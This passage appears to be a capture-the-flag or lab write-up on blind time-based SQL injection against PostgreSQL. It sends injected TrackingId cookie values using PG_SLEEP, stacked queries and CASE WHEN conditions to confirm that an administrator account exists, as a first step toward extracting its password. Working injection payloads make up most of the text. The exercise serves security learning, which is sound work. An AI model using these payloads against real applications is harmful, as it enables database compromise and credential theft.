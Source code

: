 So here the plan is first to find the SQL injection, and then to retrieve the administrators password as it has been done before.

## Finding the SQL Injection

```sql
TrackingId=QRvD0dG8SNkAeEr7'||(SELECT PG_SLEEP(3))||'
```

![picture 45](/assets/images/53f3a28bd6f7aa0137a79845903298e3add6706f369173ae149db507ba33e004.png)  

SQL Injection works with concatenation using `||` but it also works using stacked queries, separating it with `;`:

```sql
TrackingId=QRvD0dG8SNkAeEr7'%3b(SELECT PG_SLEEP(3))%3b'
```

## Testing Yes/No Condition
1. Using `CASE WHEN ... THEN` statement we get response in 3 seconds
```sql
TrackingId=QRvD0dG8SNkAeEr7'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--;
```
2. We should now get response immediatly:
```sql
TrackingId=QRvD0dG8SNkAeEr7'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--; session=kP6ZffRl10Pc4DroO8dsIuSMBIwLfgJq
```
And yes, we do get a response in 98 miliseconds.

## Extracting password from `administrator`

### Does `administrator` exist
```sql
TrackingId=QRvD0dG8SNkAeEr7'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```
Answer: Yes it does!

